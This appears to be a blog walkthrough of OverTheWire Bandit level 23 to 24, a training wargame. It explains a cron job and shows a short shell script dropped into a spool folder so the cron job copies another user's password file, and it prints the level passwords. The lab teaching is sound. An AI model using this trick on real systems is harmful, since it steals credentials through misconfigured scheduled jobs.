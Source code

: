 ```yaml
---
title: "Bandit: Level 23 - Level 24"
date: 2024-09-12 14:00:00 -500 
categories: [OvertheWire, Bandit]
tags: [linux,wargames,bandit,overthewire]
author: Christoph K
---
```

<!-- Change LEVELS -->

### Level 23

**Username:** `bandit23`  
**Password:** `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

### Task:
https://overthewire.org/wargames/bandit/bandit24.html

<!-- PICTURE FROM TASK -->
    A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

    NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

    NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
<!-- change username bandit!! -->

### Start

Let's begin by connecting to the server `bandit.labs.overthewire.org` and logging in with user `bandit23` on port `2220`.



<!-- CHANGE COMMANDS IF NECCESSARY -->


### Solve the level

We have to write our first shell bash script, so lets see what we have to do. First we have to check what the `cron` job does.

```bash
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  otw-tmp-dir  sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
Okay lets see the bash script.

```bash

#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

```

What does this script do:

- Finds your username: It stores the result of the whoami command (which shows your username) in the variable myname.

- Changes directory: It goes into the folder /var/spool/[your username]/foo, where [your username] is replaced by the result of whoami.

- Displays a message: It prints a message saying it's about to run and delete all scripts in the folder /var/spool/[your username]/foo.

- Loops through files: It goes through all files (even hidden ones) in this folder.

- Ignores special files: It skips the special entries . (current directory) and .. (parent directory).

- Handles each file: For each remaining file:

    - It prints a message showing which file is being handled.
    - It checks the owner of the file using the stat command.
    - If the owner is "bandit23", it runs the script with a timeout of 60 seconds. If the script takes longer, it will be forcefully stopped.
    - After executing the script (if applicable), it deletes the file.


#### What can we do? 

The cronjob executes this script, which executes all scripts in a specific folder with different permissions. So we could create a script there which will be executed and gives us the password.

- All passwords are saved in `etc/bandit_pass/banditLVL`
- We need to get the output from that password where we have read permissions


I go through it Step by Step:

-  Create a directory where we can "work" 
-  Create with nano our script

```bash
bandit23@bandit:/etc/bandit_pass$ cd /tmp/tmp.cxPDYrL7Vd
bandit23@bandit:/tmp/tmp.cxPDYrL7Vd$ nano script.sh
```
-  Write a script which creates the ouput of the password from `bandit24` into our directory

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24>/tmp/tmp.cxPDYrL7Vd/password.txt
```

- Change permissions on the file and folder!

```bash
bandit23@bandit:/tmp/tmp.cxPDYrL7Vd$ chmod +x script.sh
chmod 644 /tmp/tmp.cxPDYrL7Vd
```
-  Copy the script to the prefered location 

```bash
bandit23@bandit:/tmp/tmp.cxPDYrL7Vd$ cp script.sh /var/spool/bandit24/foo
```

- Wait until `password.txt` is in our directory (1 min max)

```bash
bandit23@bandit:/tmp/tmp.cxPDYrL7Vd$ cat password.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

And we have our password :-)

Password: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`


### Note:
Dont worry if you couldnt come up with a solution. It takes time to learn all that stuff and after learning to `use` it. I would highly recommend to learn the basics from bash, it is easy to learn and very useful!

